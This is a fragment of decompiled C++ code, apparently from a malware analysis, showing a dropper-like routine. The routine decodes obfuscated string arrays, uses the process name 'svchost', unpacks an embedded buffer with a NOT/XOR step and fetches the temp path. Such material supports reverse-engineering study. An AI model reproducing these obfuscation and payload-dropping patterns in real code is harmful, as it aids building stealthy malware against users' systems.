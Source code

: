 ```c++
  char v41; // [esp+13474h] [ebp-10h]
  char v42; // [esp+13475h] [ebp-Fh]
  char v43; // [esp+13476h] [ebp-Eh]
  char v44; // [esp+13477h] [ebp-Dh]
  char v45; // [esp+13478h] [ebp-Ch]
  char v46; // [esp+13479h] [ebp-Bh]
  char v47; // [esp+1347Ah] [ebp-Ah]
  char v48; // [esp+1347Bh] [ebp-9h]
  char v49; // [esp+1347Ch] [ebp-8h]

  v41 = 117;
  v42 = 99;
  v43 = 126;
  v44 = 97;
  v45 = 63;
  v46 = 116;
  v47 = 105;
  v48 = 116;
  v49 = 0;
  CmdLine = 114;
  v15 = 124;
  v16 = 117;
  v17 = 63;
  v18 = 116;
  v19 = 105;
  v20 = 116;
  v21 = 49;
  v22 = 62;
  v23 = 122;
  v24 = 49;
  v25 = 117;
  v26 = 116;
  v27 = 125;
  v28 = 49;
  v29 = 82;
  v30 = 43;
  v31 = 77;
  v32 = 117;
  v33 = 99;
  v34 = 126;
  v35 = 97;
  v36 = 63;
  v37 = 116;
  v38 = 105;
  v39 = 116;
  v40 = 0;
  Src = 0;
  memset(&Dst, 0, 0x9A00u);
  Size = 0;
  Buffer = 0;
  memset(&v12, 0, 0x9A00u);
  strcpy(CommandLine, "svchost");
  NumberOfBytesWritten = 0;
  sub_401770(&CmdLine, 26);
  sub_401770(&v41, 8);
  if ( !__FrameUnwindToState(0, &Src, (int)&Size) )
    return 0;
  memset(&Buffer, 0, Size + 1);
  memcpy(&Buffer, &Src, Size);
  for ( i = 0; i <= Size; ++i )
    *(&Buffer + i) = ~*(&Buffer + i) ^ 0x41;
  lpBuffer = (CHAR *)operator new[](0x104u);
  GetTempPathA(0x104u, lpBuffer);
```